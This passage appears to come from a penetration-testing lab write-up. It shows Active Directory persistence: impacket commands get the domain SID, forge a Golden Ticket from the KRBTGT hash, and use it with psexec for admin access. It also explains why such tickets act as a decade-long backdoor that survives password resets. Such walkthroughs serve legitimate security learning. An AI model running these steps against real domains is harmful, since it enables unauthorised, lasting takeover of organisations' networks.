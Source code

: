 -   **Using** `impacket-lookupsid` **to get the Search for the Domain SID**:
    -   `impacket-lookupsid $domain/$user@$machine.$domain -domain-sids`
    -   {{< figure src="/ox-hugo/2024-11-03-162358_.png" >}}

-   **Sync our clock to the host using ntupdate**:
    -   `sudo ntpdate -s $domain`
    -   This does not need to be done again (as I have already done it. However i've left it here in case when you do this you forget)

-   **Using** `impacket-ticketer` **to create the Golden Ticket**:
    -   `impacket-ticketer $box -nthash [KRBTGTHash] -domain-sid [SID] -domain $domain Administrator`
    -   {{< figure src="/ox-hugo/2024-11-03-161551_.png" >}}



-   **Export the ticket to the** `KRB5CCNAME` **Variable**:
    -   `export KRB5CCNAME=./Administrator.ccache`
    -   {{< figure src="/ox-hugo/2024-11-03-162935_.png" >}}

-   **Use the ticket for connecting via** `psexec`
    -   `impacket-psexec -k -no-pass $machine.$domain`
    -   {{< figure src="/ox-hugo/2024-11-03-162954_.png" >}}


#### Why create a golden ticket? {#why-create-a-golden-ticket}

-   "But bloodstiller why are you making a golden ticket if you have the admin hash?" Glad you asked:
    -   Creating a Golden Ticket during an engagement is a reliable way to maintain access over the long haul. Here's why:
    -   `KRBTGT` **Hash Dependence**:
        -   Golden Tickets are generated using the `KRBTGT` account hash from the target's domain controller.
        -   Unlike user account passwords, `KRBTGT` hashes are rarely rotated (and in many organizations, they are never changed), so the Golden Ticket remains valid indefinitely.
    -   `KRBTGT` **Hash—The Key to It All (for upto 10 years)**:
        -   A Golden Ticket can allow you to maintain access to a system for up to 10 years (yeah, you read that right the default lifespan of a golden ticket is 10 years) without needing additional credentials.
        -   This makes it a reliable backdoor, especially if re-access is needed long after initial entry.
        -   **Think about it**: even if they reset every user's password (including the administrator etc) your Golden Ticket is still valid because it's tied to the `KRBTGT` account, not individual users.


## Lessons Learned: {#lessons-learned}


### What did I learn? {#what-did-i-learn}

1.  I should always check for password re-use even between accounts!
2.  It was good to attack this from a privilege escalation point of view from 2 different angles, showing the more recent PrintNightmare as well as the intended route of WinLogon clear-text creds. 


### What silly mistakes did I make? {#what-silly-mistakes-did-i-make}
